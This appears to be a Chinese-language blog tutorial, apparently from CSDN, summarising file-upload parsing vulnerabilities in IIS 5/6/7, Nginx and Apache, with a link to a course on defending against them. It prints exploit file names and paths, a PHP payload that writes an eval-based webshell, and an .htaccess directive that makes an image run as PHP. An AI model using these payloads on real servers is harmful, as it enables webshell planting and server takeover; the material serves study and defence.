 ```yaml
---
title: 文件解析漏洞总结
id: csdn50695896
---
```


## 一、IIS 5.x/6.0解析漏洞

IIS 6.0解析利用方法有两种

1.目录解析

```
/xx.asp/xx.jpg
```

2.文件解析

```
cracer.asp;.jpg
```

第一种，在网站下建立文件夹的名字为 .asp、.asa 的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件来解析并执行。

例如创建目录 cracer.asp，那么

```
/cracer.asp/1.jpg
```

将被当作asp文件来执行。假设黑阔可以控制上传文件夹路径,就可以不管你上传后你的图片改不改名都能拿shell了。

第二种，在IIS6.0下，分号后面的不被解析，也就是说

```
cracer.asp;.jpg
```

会被服务器看成是cracer.asp

还有IIS6.0 默认的可执行文件除了asp还包含这三种

```
/cracer.asa/cracer.cer/cracer.cdx
```

## 二、IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞

Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的…

在默认Fast-CGI开启状况下,黑阔上传一个名字为cracer.jpg，内容为

```
<?PHP fputs(fopen(‘shell.php’,’w’),'<?php eval($_POST[cmd])?>’);?>
```

的文件，然后访问cracer.jpg/.php,在这个目录下就会生成一句话木马 shell.php

## 三、Nginx <8.03 空字节代码执行漏洞

影响版:0.5.,0.6., 0.7 <= 0.7.65, 0.8 <= 0.8.37

Nginx在图片中嵌入PHP代码然后通过访问

```
xxx.jpg%00.php
```

来执行其中的代码

## 四、Apache解析漏洞

Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.

比如 `cracer.php.owf.rar` “.owf”和”.rar” 这两种后缀是apache不可识别解析,apache就会把`cracer.php.owf.rar`解析成php.

如何判断是不是合法的后缀就是这个漏洞的利用关键,测试时可以尝试上传一个cracer.php.rara.jpg.png…（把你知道的常见后缀都写上…）去测试是否是合法后缀

## 五、其他

在windows环境下，`xx.jpg[空格]` 或`xx.jpg.` 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点,黑客可以通过抓包，在文件名后加一个空格或者点绕过黑名单.若上传成功，空格和点都会被windows自动消除,这样也可以getshell。

如果在Apache中.htaccess可被执行.且可被上传.那可以尝试在.htaccess中写入:

```
<FilesMatch “cracer.jpg”> SetHandler application/x-httpd-php </FilesMatch>
```

然后再上传shell.jpg的木马, 这样shell.jpg就可解析为php文件。

## 相关课程

![](../img/199fcdfe676f8b83a2ccb90e2073c216.png)

[非法文件上传漏洞技术解析及防御](http://www.ichunqiu.com/course/78)